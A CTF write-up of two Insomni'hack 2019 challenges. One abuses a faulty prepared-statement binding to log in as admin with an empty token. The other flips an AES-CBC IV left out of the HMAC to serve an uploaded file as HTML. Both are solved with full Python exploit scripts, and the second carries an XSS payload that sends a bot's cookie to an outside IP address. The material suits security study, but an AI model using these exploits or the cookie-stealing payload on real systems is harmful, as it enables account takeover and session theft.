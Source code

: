 ```yaml
---
layout: post
title: Insomni'hack 2019
category: writeups
tags: [writeup, crypto, web, jhtc]
---
```


[PHPPrivate](#phpprivate) tldr; invalid prepare SQL function

[SecureFileUpload](#securefileupload) tldr; hmac doesn't include iv -> XSS 

### PHPPrivate

[Source code]({{ "/assets/posts/2019-03-22-insomnihack/phpprivate.tar.gz" }}) (with web.sql and warnings enabled).

Simple web application in php. We can register, login and store files. To get the flag, we must login as the admin.

There are some **potential** bugs:
* in classes/private.class.php, `download` function - path traversal
* in private.php:11 (with `$file['name']`) - XSS
* in private.php:31 - CRLF injection (very potential, `header()` handles newlines)

And two vulnerabilities that we can exploit:
* in private.php:32 (`print $a->download($file['name']);`) and classes/private.class.php, `retrieve` function - no username validation or other authorization mechanism (we can download files of other users once we know hashes of their names)
* in classes/user.class.php:62, `oneTimeLogin` function :
    ```php
    $stmt = mysqli_prepare($db,"SELECT token FROM users_reset WHERE login = ? OR trim(login) = ? ");
    mysqli_stmt_bind_param($stmt,'s',$username);
    $validToken = (string)mysqli_fetch_all(mysqli_stmt_get_result($stmt),MYSQLI_ASSOC)[0]['token'];
    ```
    Incorrect parameters binding. Only one viariable provided in `mysqli_stmt_bind_param` and so `$validToken` becomes empty string.

Using bugs above we can simply login as admin with empty token and get his private files.

Solutions:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

'''
~Gros
'''


import requests


# url = 'http://127.0.0.1/phpprivate/index.php'
# proxies = {'http': 'http://localhost:6666'}
url = 'http://10.13.37.44/index.php'
proxies = {}

# we want to login as him
login_target = 'admin'

# arbitrary, registered previously login/pass
login = 'gros'
password = 'gros'


def get_session():
    s = requests.Session()
    s.post(url, params={'page':'login', 'action':'login'}, data={'login':login, 'password':password}, proxies=proxies)
    return s


def ask(s):
    resp = s.post(url, params={'page':'login', 'action':'ask-otp'}, data={'login':login_target}, proxies=proxies)


def confirm(s):
    resp = s.post(url, params={'page':'login', 'action':'confirm-otp'}, data={'login':login_target, 'token':''}, proxies=proxies)


def get_files(s):
    resp = s.get(url, params={'page':'private'}, proxies=proxies)    
    print(resp.text)


if __name__ == "__main__":
    s = get_session()
    ask(s)
    confirm(s)
    get_files(s)
```

### SecureFileUpload

[Source code]({{ "/assets/posts/2019-03-22-insomnihack/securefileupload.tar.gz" }})

There is an form for file uploading. Once some file is uploaded, we can download it by link like `http://127.0.0.1:3000/files/upload_7e43a9915b2889825213d20d35a51844`. The link redirects us to something like:
```
http://127.0.0.1:3000/download?iv=ShpbGBgnDhwRYwLfqkZilw%3D%3D&headers=ZOdRVO%2FsJfjX6Xpb4XeVn9xYvtkHuLMuWin3TD8ICaIPrJKfieAYmd7fWelAISHcj2MTcZ2NWx80rIBGpBD4sq5Ns0vY6Dc%2BZSc0m%2Bh1RSM%3D&mac=UruIcJZwUKg2o%2FXbkGkcvraPe6TbBjPKEN7eR6N%2FNl4%3D
```

There are three params: iv (inicialization vector), headers (encrypted with aes-cbc) and mac (sha256 based hmac). Encrypted headers content is:
```js
let headers = querystring.stringify({
    d : 'attachment',
    t : 'text/plain',
    id: uid
});
```
where `uid` is id of the file to download.

We can also submit a path, which some bot (with the flag inside cookie) will visit:
```js
let url = 'https://securefileupload.insomni.hack/' + req.query.path;
```

Clearly we have to XSS him and steal the cookie. To do that we may use download function (with encrypted headers). Since we control iv and know first block (16 bytes) of the plaintext, we can change the iv in a way that headers will decrypt to arbitrary (chosen by us) value. The only problem could be the mac. But there is a bug in the implementation - mac is computed only over ciphertext, doesn't include iv.

So we upload file with XSS payload, then set up iv of corresponding ciphertext such that the plaintext will set content-type to text/html and content-disposition to anything invalid (so the file won't be treaded as attachement).

Solution:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

'''
~Gros
'''


from pwn import xor
import requests
from urllib import unquote
from base64 import *


url = 'https://securefileupload.insomni.hack/'
proxies = {}
# url = 'http://localhost:3000'
# proxies = {'https': 'http://localhost:6666'}


def gen_iv(iv_orig):
    iv_plain = 'd=attachment&t=text%2Fplain&id='[:16]
    iv_want = 't=text/html&d=inline&'[:16]
    iv_want = iv_want.rjust(16, '&')
    return xor(iv_plain, iv_want, iv_orig)


def upload(payload):
    url2 = url + "upload"
    burp0_headers = {"Connection": "close", "Cache-Control": "max-age=0", "Origin": "https://securefileupload.insomni.hack", "Upgrade-Insecure-Requests": "1", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundary1Dbi1HkEY5FWVYoH", "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.121 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "Referer": "https://securefileupload.insomni.hack/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "pl-PL,pl;q=0.9,en-US;q=0.8,en;q=0.7"}
    burp0_data = "------WebKitFormBoundary1Dbi1HkEY5FWVYoH\r\nContent-Disposition: form-data; name=\"filetoupload\"; filename=\"r2-d2.jpg\"\r\nContent-Type: image/jpeg\r\n\r\n{}\r\n------WebKitFormBoundary1Dbi1HkEY5FWVYoH--\r\n".format(payload)
    resp = requests.post(url2, headers=burp0_headers, data=burp0_data, verify=False, proxies=proxies)
    result = resp.text[resp.text.index('/files/upload_')+len('/files/upload_'):resp.text.index("'>here!</a>")]
    print('upload: ', result)
    return result


def get_file(file_id):
    resp = requests.get(url+'files/upload_{}'.format(file_id), allow_redirects=False, verify=False,proxies=proxies)
    result = resp.headers['Location']
    result = result.split('?', 1)[-1]
    iv,headers,mac = map(lambda x: unquote(x.split('=',1)[-1]), result.split('&'))
    print(iv, headers, mac)
    iv, headers, mac = map(lambda x: b64decode(x), [iv,headers,mac])
    return iv, headers, mac


def download(iv,headers,mac):
    iv,headers,mac = map(lambda x: b64encode(x), [iv,headers,mac])
    resp = requests.get(url+'download', params={'iv':iv,'headers':headers,'mac':mac}, verify=False, proxies=proxies)
    print(resp.text)


if __name__ == "__main__":
    # or whatever
    payload = """<script>document.location="http://192.168.1.110/xss.php?c="+document.cookie</script>"""

    file_id = upload(payload)
    iv, headers, mac = get_file(file_id)
    iv_want = gen_iv(iv)
    download(iv_want, headers, mac)
```